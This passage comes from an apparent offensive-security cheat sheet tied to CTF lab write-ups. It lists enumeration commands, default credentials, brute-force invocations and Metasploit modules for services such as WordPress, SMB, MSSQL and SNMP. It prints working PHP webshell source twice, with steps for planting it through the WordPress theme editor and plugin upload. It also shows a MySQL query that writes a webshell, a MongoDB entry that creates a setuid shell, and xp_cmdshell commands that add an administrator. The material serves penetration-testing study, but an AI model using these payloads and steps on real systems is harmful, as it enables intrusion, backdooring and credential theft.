mongo -p -u mark scheduler => connects to mongodb as user mark and allows interaction with db scheduler
use scheduler => switch db
db.getCollectionNames() => list all collections/tables
db.tasks.find({}) => show all entries from collection/table
db.tasks.insert({"cmd": "cp /bin/bash /tmp/bash; chmod u+s /tmp/bash;"}) => insert a new entry within table tasks

```
  
  
---
<a name="enumerate_app_nodejs"></a>
#### enumerate_app_nodejs [⇡](#enumerate)  
```shell
check source and look at the js files to find interesting links/apis
use burp to spider and create a sitemap of the website
find app.js and look for db credentials (sql/mongo)
try ssh using db credentials

```
  
  
---
<a name="enumerate_app_pfsense"></a>
#### enumerate_app_pfsense [⇡](#enumerate)  
```shell
default credentials: admin/pfsense

```
  
  
---
<a name="enumerate_app_phpmyadmin"></a>
#### enumerate_app_phpmyadmin [⇡](#enumerate)  
```shell
default credentials:
  admin/
  admin/admin
  root/root
  root/password
  root/mysql

```
  
  
---
<a name="enumerate_app_powershell_history"></a>
#### enumerate_app_powershell_history [⇡](#enumerate)  
For certain accounts (like `sql_svc`) that are both user and service accounts, we can look at the user's PowerShell history and find interesting information.  
```shell
type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="enumerate_app_prtg"></a>
#### enumerate_app_prtg [⇡](#enumerate)  
```shell
default credentials:
  prtgadmin/prtgadmin
configuration and backup files (accessed via an open ftp/smb):
  c:\programdata\paessler\Configuration.dat
  c:\programdata\paessler\Configuration.old

```
  
  
---
<a name="enumerate_app_unrealirc"></a>
#### enumerate_app_unrealirc [⇡](#enumerate)  
```shell
msfconsole
  use exploit/unix/irc/unreal_ircd_3281_backdoor
  set rhost <targetip>
  set rport <targetport>
  exploit

```
  
[+] https://snowscan.io/htb-writeup-irked/  
  
---
<a name="enumerate_app_webmin"></a>
#### enumerate_app_webmin [⇡](#enumerate)  
```shell
view any file - even root owned, run perl cgi scripts
msf: auxiliary/admin/webmin/file_disclosure
can view /etc/ldap.secret file that might give credentials
can be used to run a perl cgi script (uploaded via some other means) to gain root reverse shell
download shadow file and try cracking hashes
download ssh authorized_keys for users (names obtained from shadow file), use edb:5720 and "ssh -i"

```
  
  
---
<a name="enumerate_app_wordpress"></a>
#### enumerate_app_wordpress [⇡](#enumerate)  
```shell
default creds: admin/password
look for phpmyadmin, plugins directories
look for wp-config.php file (via an open smb/ftp share) => contains db creds, useful for phpmyadmin and ssh
enumerate authors:
  http://192.168.92.167:<targetport>/?author=1 => will show username as "AUTHOR ARCHIVES: <username>"
  http://192.168.92.167:<targetport>/?author=2 => will not show username if author id is invalid
  wpuser http://192.168.92.134/ usernames
wpscan --url http://192.168.92.134:80/ -e vp,vt,tt,cb,dbe,u,m
bruteforce wordpress login:
  wpscan --url http://192.168.92.134 -P fsocity.dic.trimmed -U elliot
  wpscan --url http://192.168.92.169/backup_wordpress/ -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -U admin,john
  wpscan --disable-tls-checks --url https://192.168.92.165:12380/blogblog/ -P $HOME/toolbox/vulnhub/mrrobot1/pass.list -U elliot
  hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.92.169 http-post-form "/backup_wordpress/wp-login.php:log=admin&pwd=^PASS^:ERROR"
wordpress to shell:
  #1 add webshell via /wp-admin/theme-editor.php?file=404.php
    a. "Appearance" -> "Editor"
    b. select "404 Template" (404.php)
    c. add php backdoor before the `<?php get_footer(); ?>` line and click "Update File"
    d. example php backdoor: /usr/share/webshells/php/php-reverse-shell.php
    e. run local netcat listener
    f. visit a non-existing page: http://192.168.92.191/wordpress/?p=<attackerport>99
  #2 add webshell @ /wp-admin/
    a. "Appearance" -> "Editor"
    b. select "Theme Footer" (footer.php)
    c. add php backdoor at the end of file and click "Update File"
    d. example php backdoor:
      <!-- Inpired by DK's Simple PHP backdoor (http://michaeldaw.org) -->
      <?php
        if(isset($_REQUEST['cmd'])){
          echo "<pre>";
          $cmd = ($_REQUEST['cmd']);
          exec($cmd, $results);
          foreach( $results as $r )
          {
                  echo $r."<br/>";
          }
          echo "</pre>";
          die;
        }
      ?>
      /*Usage: http://domain/path?cmd=cat+/etc/passwd*/
    e. visit http://192.168.92.169/backup_wordpress/?cmd=cat%20/etc/passwd to run commands
    f. result will be concatenated to the end of the page
  #3 add webshell via media file @ /wp-admin/plugin-install.php
    a. "Upload plugin" -> "Browse"
    b. example php backdoor:
      <!-- Inpired by DK's Simple PHP backdoor (http://michaeldaw.org) -->
      <?php
        if(isset($_REQUEST['cmd'])){
          echo "<pre>";
          $cmd = ($_REQUEST['cmd']);
          exec($cmd, $results);
          foreach( $results as $r )
          {
                  echo $r."<br/>";
          }
          echo "</pre>";
          die;
        }
      ?>
      /*Usage: http://domain/path?cmd=cat+/etc/passwd*/
    c. plugin install might fail, but php file will be uploaded as a media file
    d. visit http://192.168.92.169/backup_wordpress/wp-admin/upload.php to confirm file upload
    e. use http://192.168.92.169/backup_wordpress/wp-content/uploads/<year>/<monthid>/<filename>.php?cmd=cat%20/etc/passwd to run commands
  #4 metasploit:
    msf> use exploit/unix/webapp/wp_admin_shell_upload
    msf exploit(unix/webapp/wp_admin_shell_upload) > set rhost 192.168.92.169
    msf exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /backup-wordpress
    msf exploit(unix/webapp/wp_admin_shell_upload) > set username john
    msf exploit(unix/webapp/wp_admin_shell_upload) > set password enigma
    msf exploit(unix/webapp/wp_admin_shell_upload) > exploit
extract hashes from wp mysql db and crack via john:
  select concat_ws(':', user_login, user_pass) from wp_users;
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.wp

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Blocky](https://github.com/7h3rAm/writeups/blob/master/htb.blocky/writeup.pdf) | [htb#48](https://app.hackthebox.eu/machines/48) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 2. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
| 3. | [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf) | [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse) |
| 4. | [DC: 6](https://github.com/7h3rAm/writeups/blob/master/vulnhub.dc6/writeup.pdf) | [vh#315](https://www.vulnhub.com/entry/dc-6,315/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
| 5. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="enumerate_file_modified_time_window"></a>
#### enumerate_file_modified_time_window [⇡](#enumerate)  
find files modified within a time window  
```shell
find / -newermt 2020-12-27 ! -newermt 2020-12-30 -type f 2>/def/null

```
  
[+] https://www.tripwire.com/state-of-security/security-data-protection/passing-offensive-security-certified-professional-exam-oscp/  
  
---
<a name="enumerate_nmap_initial"></a>
#### enumerate_nmap_initial [⇡](#enumerate)  
run nmap initial scans  
```shell
sudo nmap -Pn -sC -sV -O -oN initial <attackerip>

```
  
[+] https://medium.com/@ranakhalil101  
[+] https://medium.com/@bondo.mike  
[+] https://www.jibbsec.com/tags/oscplike/  
[+] https://0xdf.gitlab.io/tags.html#oscp-like  
  
---
<a name="enumerate_nmap_tcp"></a>
#### enumerate_nmap_tcp [⇡](#enumerate)  
run nmap full tcp scans  
```shell
nmap -Pn -sC -sV -p- --min-rate 10000 -oN tcp <attackerip>

```
  
[+] https://medium.com/@ranakhalil101  
[+] https://medium.com/@bondo.mike  
[+] https://www.jibbsec.com/tags/oscplike/  
[+] https://0xdf.gitlab.io/tags.html#oscp-like  
  
---
<a name="enumerate_nmap_udp"></a>
#### enumerate_nmap_udp [⇡](#enumerate)  
run nmap full udp scans  
```shell
nmap -Pn -sU -p- -oN udp <attackerip>

```
  
[+] https://medium.com/@ranakhalil101  
[+] https://medium.com/@bondo.mike  
[+] https://www.jibbsec.com/tags/oscplike/  
[+] https://0xdf.gitlab.io/tags.html#oscp-like  
  
---
<a name="enumerate_proto_distcc"></a>
#### enumerate_proto_distcc [⇡](#enumerate)  
```shell
msf: exploit/unix/misc/distcc_exec

```
  
  
---
<a name="enumerate_proto_dns"></a>
#### enumerate_proto_dns [⇡](#enumerate)  
```shell
reverse lookup to find all hostnames associated with an ip:
  dig +noall +answer -x <ipaddress> @<dnsserver>
dns enumeration:
  dnsenum -o outputfile -f /usr/share/dnsrecon/namelist.txt -o outputfile domain
bruteforce:
  nmap -p 80 --script dns-brute.nse <domain.name>
  python dnscan.py -d <domain.name> -w ./subdomains-10000.txt
zone transfer:
  dig axfr @<dnsserver> <domain.name>
  host -t axfr <domain.name> <dnsserver>
  host -l <domain.name> <dnsserver>

```
  
  
---
<a name="enumerate_proto_finger"></a>
#### enumerate_proto_finger [⇡](#enumerate)  
```shell
finger username@<targetip>

```
  
  
---
<a name="enumerate_proto_ftp"></a>
#### enumerate_proto_ftp [⇡](#enumerate)  
check if version is vulnerable and exploit is available. check if anonymous access is enabled. check if read permission for sensitive files. check if write permission within webroot/uploads or other critical directories. check if ftp root directory is also http root directory and upload php reverse shell. remember - binary and ascii transfer mode switch  
```shell
ftp passive mode:
  ftp -p 192.168.92.192
bruteforce ftp login:
  use auxiliary/scanner/ftp/ftp_login
misc:
  nmap --script=*ftp* --script-args=unsafe=1 -p 20,21 <targetip>
  nmap -sV -Pn -vv -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 <targetip>
  hydra -s 21 -C /usr/share/sparta/wordlists/ftp-default-userpass.txt -u -f <targetip> ftp

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
[+] https://medium.com/@ranakhalil101/my-oscp-journey-a-review-fa779b4339d9  
  
---
<a name="enumerate_proto_http"></a>
#### enumerate_proto_http [⇡](#enumerate)  
identify web server, technology, application. identify versions. run nikto, dirb/dirbuster, gobuster scans. look at robots.txt. look at source code. check for default creds, lfi/rfi, sqli, wordpress  
```shell
bash /usr/share/sparta/scripts/x11screenshot.sh <targetip>
cewl http://<targetip>:<targetport>/ -m 6, "http,https,ssl,soap,http-proxy,http-alt" ## create wordlist by crawling webpage
cewl https://<targetip>:<targetport>/ -m 6, "http,https,ssl,soap,http-proxy,http-alt" ## create wordlist by crawling webpage
curl -i <targetip> ## check http response headers
gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/cgis.txt -u http://<targetip>:<targetport> -s "200,204,301,307,403,500"
gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/cgis.txt -u https://<targetip>:<targetport> -s "200,204,301,307,403,500"
gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/common.txt -u http://<targetip>:<targetport> -s "200,204,301,307,403,500"
gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/common.txt -u http://<targetip>:<targetport> -s "200,204,301,307,403,500"
gobuster -w /usr/share/wordlists/SecLists/Discovery/Web_Content/common.txt -u https://<targetip>:<targetport> -s "200,204,301,307,403,500"
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<taregtip>/ -t 20 -U <username> -P <password>
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <targetip> http-get /
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <targetip> http-head /
nc -v -n -w1 <targetip> <targetport> ## netcat to grab banner
nikto -o "[OUTPUT].txt" -p <targetport> -h <targetip>
nmap -Pn -sV -sC -vvvvv -p<targetport> <targetip> -oA [OUTPUT]
w3m -dump <targetip>/robots.txt
wafw00f http://<targetip>:<targetport>, "http,https,ssl,soap,http-proxy,http-alt" ## check if server is behind a web app firewall
wafw00f https://<targetip>:<targetport>, "http,https,ssl,soap,http-proxy,http-alt" ## check if server is behind a web app firewall
whatweb <targetip>:<targetport> --color=never --log-brief="[OUTPUT].txt" ## identify web technology

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [InfoSec Prep: OSCP](https://github.com/7h3rAm/writeups/blob/master/vulnhub.infosecpreposcp/writeup.pdf) | [vh#508](https://www.vulnhub.com/entry/infosec-prep-oscp,508/) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_ssh_privatekeys`](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [`privesc_lxc_bash`](https://github.com/7h3rAm/writeups#privesc_lxc_bash) |
| 2. | [Year of the Fox](https://github.com/7h3rAm/writeups/blob/master/thm.yotf/writeup.pdf) | [tryhackme#yotf](https://tryhackme.com/room/yotf) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_command_injection`](https://github.com/7h3rAm/writeups#exploit_command_injection), [`privesc_env_relative_path`](https://github.com/7h3rAm/writeups#privesc_env_relative_path) |
| 3. | [Buff](https://github.com/7h3rAm/writeups/blob/master/htb.buff/writeup.pdf) | [htb#263](https://app.hackthebox.eu/machines/263) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_gymsystem_rce`](https://github.com/7h3rAm/writeups#exploit_gymsystem_rce), [`exploit_cloudme_bof`](https://github.com/7h3rAm/writeups#exploit_cloudme_bof) |
| 4. | [Bashed](https://github.com/7h3rAm/writeups/blob/master/htb.bashed/writeup.pdf) | [htb#118](https://app.hackthebox.eu/machines/118) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_cron_rootjobs`](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs) |
| 5. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="enumerate_proto_ldap"></a>
#### enumerate_proto_ldap [⇡](#enumerate)  
```shell
ldapsearch -x -s base -h <targetip> -p 389

```
  
  
---
<a name="enumerate_proto_mssql"></a>
#### enumerate_proto_mssql [⇡](#enumerate)  
```shell
hydra -s <targetport> -C /usr/share/sparta/wordlists/mssql-default-userpass.txt -u -f <targetip> mssql
hydra -ufl /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt mssql://<targetip>
nmap --script=ms-sql-* --script-args mssql.instance-port=1433 <targetip>
nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse <targetip> -p1433 --script-args mssql.username=sa,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd="net user anderson cooper /add"
nmap -Pn -n -sS --script=ms-sql-xp-cmdshell.nse <targetip> -p1433 --script-args mssql.username=<sql_user>,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd="net localgroup administrators anderson /add"
nmap -vv -sV -Pn -p <targetport> --script=ms-sql-info,ms-sql-config,ms-sql-dump-hashes --script-args=mssql.instance-port=%s,smsql.username-sa,mssql.password-sa <targetip>

```
  
  
---
<a name="enumerate_proto_mysql"></a>
#### enumerate_proto_mysql [⇡](#enumerate)  
```shell
nmap --script=mysql-* <targetip>
bruteforce:
  hydra -ufl /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt mysql://<targetip>
  nmap -p 3306 --script mysql-brute --script-args userdb=/usr/share/wordlists/mysql_users.txt,passdb=/usr/share/wordists/rockyou.txt -vv <targetip>
create a reverse shell:
  select '<?php exec($_GET["cmd"]); ?>' from store into dumpfile '/var/www/https/blogblog/wp-content/uploads/shell.php'
udf:
  if mysql is running as root AND /usr/lib/lib_mysqludf_sys.so file is present, we can privesc

nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <targetip> -p <targetport>
hydra -s <targetport> -C ./wordlists/mysql-default-userpass.txt -u -f <targetip> mysql

```
  
  
---
<a name="enumerate_proto_nfs"></a>
#### enumerate_proto_nfs [⇡](#enumerate)  
```shell
nmap -sV --script=nfs-* <targetip>
showmount -e <targetip>

```
  
  
---
<a name="enumerate_proto_oracle"></a>
#### enumerate_proto_oracle [⇡](#enumerate)  
```shell
msfcli auxiliary/scanner/oracle/tnslsnr_version rhosts=<targetip> E
msfcli auxiliary/scanner/oracle/sid_enum rhosts=<targetip> E
tnscmd10g status -h <targetip>
hydra -uf -P /usr/share/wordlists/metasploit/unix_passwords.txt <targetip> -s 1521 oracle-listener

```
  
  
---
<a name="enumerate_proto_postgres"></a>
#### enumerate_proto_postgres [⇡](#enumerate)  
```shell
hydra -s <targetport> -C /usr/share/sparta/wordlists/postgres-default-userpass.txt -u -f <targetip> postgres
hydra -ufl /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <targetip> -s 1521 postgres

```
  
  
---
<a name="enumerate_proto_rdp"></a>
#### enumerate_proto_rdp [⇡](#enumerate)  
```shell
perl /usr/share/sparta/scripts/rdp-sec-check.pl <targetip>:<targetport>
ncrack -vv --user administrator -P /usr/share/wordlists/rockyou.txt rdp://<targetip>

```
  
  
---
<a name="enumerate_proto_rpc"></a>
#### enumerate_proto_rpc [⇡](#enumerate)  
```shell
rpcinfo -p <targetip>

```
  
  
---
<a name="enumerate_proto_smb"></a>
#### enumerate_proto_smb [⇡](#enumerate)  
```shell
locate all smb scripts on kali and run them to gather details:
  locate *.nse | grep smb
try enum4linux to get open shares, permissions and local users:
  enum4linux -a <targetip>
nbtscan -vhr <targetip>
scans:
  nmap -p139,445 --script smb-vuln-* --script-args=unsafe=1 <targetip>
  nmap -p139,445 --script smb-enum-* --script-args=unsafe=1 <targetip>
  null sessions: bash -c "echo 'srvinfo' | rpcclient -U % <targetip>"
  groups: nmap -vv -p139,445 --script=smb-enum-groups <targetip>
  users: bash -c "echo 'enumdomusers' | rpcclient -U % <targetip>"
  admins: net rpc group members "Domain Admins" -U % -I <targetip>
  shares: nmap -vv -p139,445 --script=smb-enum-shares <targetip>
  sessions: nmap -vv -p139,445 --script=smb-enum-sessions <targetip>
  policies: nmap -vv -p139,445 --script=smb-enum-domains <targetip>
  version: use auxiliary/scanner/smb/smb_version
  bruteforce: use auxiliary/scanner/smb/smb_login

bash -c "echo 'enumdomusers' | rpcclient <targetip> -U%"
bash -c "echo 'srvinfo' | rpcclient <targetip> -U%"
bash /usr/share/sparta/scripts/smbenum.sh <targetip>
enum4linux <targetip>
nbtscan -v -h <targetip>
net rpc group members "Domain Admins" -I <targetip> -U%
nmap -p<targetport> --script=smb-enum-domains <targetip> -vvvvv
nmap -p<targetport> --script=smb-enum-groups <targetip> -vvvvv
nmap -p<targetport> --script=smb-enum-sessions <targetip> -vvvvv
nmap -p<targetport> --script=smb-enum-shares <targetip> -vvvvv
nmap -sV -Pn -vv -p <targetport> --script=smb-vuln* --script-args=unsafe=1 <targetip>
python /usr/share/doc/python-impacket-doc/examples/samrdump.py <targetip> <targetport>/SMB
smbclient -L <targetip>
smbclient //<targetip>/admin$ -U john
smbclient //<targetip>/ipc$ -U john
smbclient //<targetip>/tmp
smbclient \\<targetip>\ipc$ -U john
winexe -U username //<targetip> "cmd.exe" --system

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="enumerate_proto_smb_anonymous_access"></a>
#### enumerate_proto_smb_anonymous_access [⇡](#enumerate)  
open shares, anonymous logins  
```shell
# connect to and explore smb share:
  smbclient -N -L \\\\<targetip>
  smbclient -N \\\\<targetip>\\$share
# look for null sessions "allows sessions using username '', password ''", use smbclient to connect and explore smb share:
  enum4linux -a <targetip>
  smbclient -U "" //<targetip>/share$ (password: "")
  smbclient //<targetip>/share$ -U lazysysadmin -p 445

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="enumerate_proto_smtp"></a>
#### enumerate_proto_smtp [⇡](#enumerate)  
```shell
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t <targetip> -p <targetport>
smtp-user-enum -M EXPN -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t <targetip> -p <targetport>
smtp-user-enum -M RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t <targetip> -p <targetport>
# send email:
  swaks --to eric@madisonhotels.com --from vvaughn@polyfector.edu --server 192.168.92.167:2525 --body "My kid will be a soccer player" --header "Subject: My kid will be a soccer player"

```
  
  
---
<a name="enumerate_proto_snmp"></a>
#### enumerate_proto_snmp [⇡](#enumerate)  
```shell
snmpcheck -t <targetip>
nmap -sU -p 161 --script=*snmp* <targetip>
xprobe2 -v -p udp:161:open <targetip>
use auxiliary/scanner/snmp/snmp_login
use auxiliary/scanner/snmp/snmp_enum
enumerate open ports, running services and applications:
  snmpwalk -v2c -c public <targetip> .
  snmp-check -t 5 -c public <targetip>
scan using multiple community strings:
  echo public >community
  echo private >>community
  echo manager >>community
  for ip in $(seq 200 254); do echo 10.11.1.${ip}; done >ips
  onesixtyone -c community -i ips
  onesixtyone -c /usr/share/wordlists/dirb/small.txt <targetip>
enumerate windows users:
  snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25
  for i in $(cat /usr/share/wordlists/metasploit/unix_users.txt); do snmpwalk -v 1 -c $i 192.168.1.200; done | grep -e "Timeout"
enumerate current windows processes:
  snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2
enumerate windows open tcp ports:
  snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3
enumerate installed software:
  snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2

```
  
  
---
<a name="enumerate_proto_sql"></a>
#### enumerate_proto_sql [⇡](#enumerate)  
```shell
locate all sql scripts on kali and run them to gather details:
  locate *.nse | grep sql

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
